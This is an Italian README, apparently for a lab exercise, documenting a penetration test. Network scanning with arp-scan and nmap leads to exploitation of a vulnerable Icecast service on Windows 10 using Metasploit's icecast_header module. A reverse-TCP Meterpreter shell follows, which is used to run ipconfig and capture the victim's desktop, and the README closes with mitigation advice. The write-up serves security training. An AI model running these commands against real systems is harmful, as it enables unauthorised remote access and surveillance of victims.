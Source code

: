 
# 🔐 Penetration Test con Metasploit e Icecast su Windows 10

## Introduzione
In questo progetto abbiamo condotto un test di penetrazione su una macchina **Windows 10** con il servizio **Icecast** vulnerabile. Utilizzando il framework **Metasploit** su **Kali Linux**, siamo riusciti a ottenere una sessione Meterpreter, visualizzare l’indirizzo IP della vittima e catturare uno screenshot del desktop compromesso. Questo README descrive tutte le fasi del processo, corredandole con spazi dedicati agli screenshot che mostrano i vari step.

---

## Obiettivi
- **Identificare la macchina vittima** (con Icecast vulnerabile).
- **Sfruttare la vulnerabilità per ottenere una shell Meterpreter**.
- **Visualizzare l’indirizzo IP della vittima** dalla sessione Meterpreter.
- **Catturare uno screenshot del desktop della macchina vittima**.

---

## Ambiente di Lavoro
- **Attaccante (Kali Linux)**: IP `192.168.1.150`
- **Vittima (Windows 10 con Icecast)**: IP `192.168.1.153`
- **Rete:** 192.168.1.0/24

---

## Passi Seguiti

### 1. Scansione della Rete e Identificazione della Vittima
Abbiamo innanzitutto identificato la macchina vittima nella rete locale con:
```bash
sudo arp-scan --localnet
```
Una volta trovato l’IP della vittima (`192.168.1.153`), abbiamo verificato la porta di default di Icecast (8000):
```bash
nmap -p 8000 192.168.1.153
```

**Screenshot:**  
_(Inserire screenshot della scansione nmap che mostra la porta chiusa)_

---

### 2. Avvio di Icecast sulla Vittima e Verifica
Sulla macchina Windows 10 abbiamo:
- Avviato Icecast.
- Disattivato temporaneamente il firewall o creato una regola di eccezione per la porta 8000.

Quindi, verificando dal browser:
```
http://192.168.1.153:8000
```
Abbiamo ottenuto una risposta (anche se non mostrava una particolare risorsa), confermando che Icecast era attivo e rispondeva alle richieste.

**Screenshot:**  
_(Inserire screenshot del browser che mostra la risposta di Icecast)_

---

### 3. Verifica Porta 8000 Aperta
Nuovamente con nmap:
```bash
nmap -p 8000 192.168.1.153
```
Ora la porta 8000 risultava **open**, confermando che Icecast era accessibile dalla nostra macchina Kali.

**Screenshot:**  
_(Inserire screenshot della scansione nmap con la porta aperta)_

---

### 4. Sfruttamento della Vulnerabilità con Metasploit
Avviamo Metasploit:
```bash
msfconsole
```
Impostiamo il modulo exploit di Icecast:
```bash
use exploit/windows/http/icecast_header
set RHOSTS 192.168.1.153
set RPORT 8000
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4444
exploit
```

Al primo tentativo, senza Icecast in ascolto, l’exploit falliva con `ConnectionRefused`. Dopo aver sistemato Icecast e il firewall, rilanciando `exploit`, abbiamo ottenuto una sessione Meterpreter con successo.

**Screenshot del primo tentativo fallito:**  
_(Inserire screenshot del tentativo fallito)_

**Screenshot della sessione Meterpreter ottenuta:**  
_(Inserire screenshot della sessione Meterpreter avviata con successo)_

---

### 5. Interazione con la Sessione Meterpreter
Ora che siamo dentro, possiamo eseguire comandi direttamente sulla macchina vittima. L’obiettivo era:
- **Visualizzare l’indirizzo IP della vittima**:
  ```bash
  meterpreter > ipconfig
  ```
  Questo mostra le interfacce e gli indirizzi IP della macchina Windows compromessa.

**Screenshot:**  
_(Inserire screenshot del comando ipconfig eseguito su Meterpreter)_

- **Catturare uno screenshot**:
  ```bash
  meterpreter > screenshot
  ```
  
  Lo screenshot viene salvato sulla macchina Kali (ad esempio `/home/kali/OquUbpix.jpeg`).

Per aprire l’immagine, **uscire da Meterpreter** (o aprire un nuovo terminale su Kali) e:
```bash
xdg-open /home/kali/OquUbpix.jpeg
```

**Screenshot del comando screenshot:**  
_(Inserire screenshot del comando screenshot eseguito con successo)_

**Visualizzazione dello screenshot:**  
_(Inserire screenshot dell’immagine visualizzata su Kali)_

---

## Post-Exploitation & Considerazioni

Dopo aver raggiunto gli obiettivi, si raccomanda di:
- Chiudere la sessione Meterpreter:
  ```bash
  meterpreter > exit
  ```
- Riattivare il firewall sulla macchina vittima.
- Aggiornare Icecast all’ultima versione per correggere la vulnerabilità sfruttata.
- Implementare regole IDS/IPS e segmentazione di rete per limitare l’impatto di eventuali attacchi futuri.

---

## Conclusioni

Questo test ha dimostrato come una vulnerabilità non corretta in un servizio (Icecast) possa fornire a un attaccante l’accesso remoto a una macchina Windows. Con Metasploit siamo riusciti a:

- Identificare la macchina vulnerabile.
- Avviare un exploit contro Icecast.
- Ottenere una shell Meterpreter.
- Visualizzare l’indirizzo IP della vittima.
- Catturare uno screenshot del desktop remoto.

**Emoji Key:**
- 🔍 Ricognizione
- 🚀 Exploit
- 💻 Meterpreter
- 🛡️ Difesa e Mitigazione
- 📸 Screenshot

---

## Allegati

Nella cartella [`/screenshots`](./screenshots/) sono presenti:
- **nmap_scan.png**: Risultati della prima scansione porta 8000 (chiusa).
- **icecast_browser.png**: Risposta dal browser dopo l’avvio di Icecast.
- **nmap_port_open.png**: Risultati della scansione quando la porta 8000 è aperta.
- **exploit_failed.png**: Tentativo fallito di exploit prima di avviare correttamente Icecast.
- **meterpreter_session.png**: Sessione Meterpreter ottenuta con successo.
- **ipconfig_meterpreter.png**: Output del comando ipconfig in Meterpreter.
- **screenshot_command.png**: Esecuzione del comando screenshot.
- **screenshot_view.png**: Visualizzazione dello screenshot catturato sul desktop Kali.

Tutte le immagini aiutano a comprendere visivamente i vari passaggi e i risultati ottenuti durante il test.
